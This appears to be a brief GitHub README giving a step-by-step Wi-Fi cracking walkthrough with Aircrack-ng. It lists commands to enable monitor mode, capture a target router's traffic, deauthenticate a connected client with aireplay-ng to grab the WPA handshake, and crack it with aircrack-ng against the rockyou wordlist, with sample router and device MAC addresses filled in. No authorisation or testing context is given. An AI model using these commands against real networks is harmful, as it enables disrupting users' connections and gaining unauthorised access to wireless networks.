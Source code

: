 # Wi-Fi Hacking with Aircrack-ng
kill airmon-ng 

airmon-ng check kill 

iwconfig 


is importent to down the interface 

ifconfig wlan0 down 

active monitor mode 

iwconfig wlan0 mode monitor 

up the interface 

ifconfig wlan0 up

strat  attcak 


airmon-ng start wlan0 <br/>
airodump-ng wlan0 <br/>
ifconfig <br/>


if not work this method just diconnect the wifi anapter and just type


airmon-ng start wlan0 


attack router monitor router

airodump-ng --bssid <router mac > --channel <router channel> --write <file name > wlan0


example 

airodump-ng --bssid 28:87:BA:5A:EB:93 --channel 4 --write moonx wlan0  

deauth password 

deauth for handsake capchare 

aireplay-ng --deauth <deauth number > -a <router mac> -c <davice mac> wlan0


aireplay-ng --deauth 10 -a E8:65:D4:FE:84:F8 -c BE:B1:0B:BC:06:B8 wlan0

crack password 

 aircrack-ng moonx-01.cap -w /usr/share/wordlists/rockyou.txt   
